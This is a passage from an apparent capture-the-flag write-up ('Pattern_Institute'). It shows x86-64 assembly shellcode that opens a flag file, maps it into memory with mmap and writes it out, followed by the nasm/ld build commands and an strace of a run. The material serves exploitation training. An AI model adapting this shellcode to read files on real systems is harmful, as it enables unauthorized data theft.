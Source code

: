 ```assembly
	xor  rsi, rsi
	add al, 2
	syscall

	; mmap
	xor rdi, rdi
	xor rsi, rsi
	mov si, 0xffff
	xor rdx, rdx
	add dl, 1
	mov r8, rax
	xor r9, r9
	xor r10, r10
	add r10b, 1
	xor rax, rax
	mov al, 9
	syscall

	; write
	xor rdi, rdi
	inc dl
	mov rsi, rax 
	xor rdx, rdx
	mov dx, 0xffff
	xor rax, rax
	inc al
	syscall

	; exit
	xor rdi, rdi
	mov dl, 3
	xor rax, rax
	mov al, 60
	syscall

```

Let's compile:

```console
┌──(user@kali)-[/media/sf_CTFs/intent/Pattern_Institute]
└─$ nasm -felf64 solve.asm && ld solve.o -o ./solve
```

We can check the syscalls with `strace`:
```console
┌──(user@kali)-[/media/sf_CTFs/intent/Pattern_Institute]
└─$ strace ./solve
execve("./solve", ["./solve"], 0x7ffc45a3aac0 /* 32 vars */) = 0
open("/home/flag.txt", O_RDONLY)        = -1 ENOENT (No such file or directory)
mmap(NULL, 65535, PROT_READ, MAP_SHARED, -2, 0) = -1 EBADF (Bad file descriptor)
write(0, 0xfffffffffffffff7, 65535)     = -1 EFAULT (Bad address)
exit(0)                                 = ?
+++ exited with 0 +++
```
